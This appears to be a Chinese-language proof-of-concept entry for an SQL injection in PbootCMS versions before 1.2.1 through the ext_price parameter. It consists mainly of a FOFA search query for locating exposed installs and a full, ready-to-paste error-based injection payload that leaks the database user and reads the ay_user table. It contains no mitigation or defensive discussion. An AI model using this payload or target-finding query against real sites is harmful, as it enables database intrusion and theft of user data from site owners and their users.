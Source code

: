 # PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## FOFA

```
app="PBOOTCMS"
```

## 漏洞复现

主页

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170926840.png)

测试 Payload

```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170926157.png)